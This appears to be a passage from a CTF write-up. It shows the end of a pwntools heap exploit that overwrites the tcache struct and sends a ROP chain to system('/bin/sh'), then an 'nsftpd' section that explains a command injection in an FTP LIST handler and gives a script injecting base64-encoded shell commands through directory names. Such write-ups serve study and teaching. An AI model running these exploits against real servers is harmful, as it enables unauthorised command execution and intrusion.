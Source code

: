 ```python
dbg('stack')
if args.D:
    debug(r, [0x16a6])

context.log_level = 'debug'
target = stack-0x190

# overwrite tcache_perthread_struct again
payload = b''
payload += flat(0, 0, 0xbeef, target-8)

al(payload, 0x24)


# send ROP payload to stack
payload = b''
payload += flat(0xdead, rdi+1, rdi, binsh, system, 0xbeef)
al(payload, 0x40)

r.sendline(b'cat f*; ls -la; pwd ;cat /f*')

r.interactive()
r.close()
```

# nsftpd
This is a task using OSS ftp software.

There is a critical command injection in the implementation of the LIST command.

```c
void file_list(int sock, char* dir) {
    char cmd_buffer[BUFFER_SIZE];
    sprintf(cmd_buffer, "ls -l %s", dir);
    FILE* pipe = popen(cmd_buffer, "r");
    send_file(sock, pipe);
    pclose(pipe);
}
```

We can execute any command by creating a directory name with the command itself, changing the current directory to it, and executing LIST.

We tried to connect to the port using PASV to receive the results of command processing, but we were unable to connect successfully, perhaps due to the server settings. So instead we spin up an AWS instance and use the PORT command to capture the output.

```python
from pwn import *
context.log_level = 'debug'

TARGET = './ftpd'
HOST = 'localhost'
PORT =  2121

r = remote(HOST, PORT)
raw_cmd = b'ls -la /'
#raw_cmd = b'/getflag'
cmd = f'echo {b64e(raw_cmd)}|base64 -d|sh'

r.sendline(b'noop')
r.sendlineafter(b'200 OK\r\n', f'rmd a;{cmd}'.encode())
r.sendline(b'noop')
r.sendlineafter(b'200 OK\r\n', f'mkd a;{cmd}'.encode())
r.sendlineafter(b'created\r\n', f'cwd a;{cmd}'.encode())
```